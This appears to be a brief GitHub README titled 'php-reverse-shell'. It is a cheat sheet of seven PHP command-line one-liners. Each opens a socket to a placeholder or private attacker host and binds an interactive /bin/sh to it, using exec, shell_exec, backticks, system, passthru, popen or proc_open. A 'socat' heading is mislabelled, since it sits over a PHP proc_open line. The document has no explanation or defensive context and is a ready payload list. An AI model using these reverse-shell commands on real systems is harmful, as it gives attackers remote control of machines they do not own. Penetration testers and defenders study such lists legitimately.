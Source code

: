 # php-reverse-shell
**PHP**
```

php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",PORT);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",PORT);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("IP",PORT);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",PORT);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("IP",PORT);popen("/bin/sh -i <&3 >&3 2>&3", "r");'

```
**socat**

php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
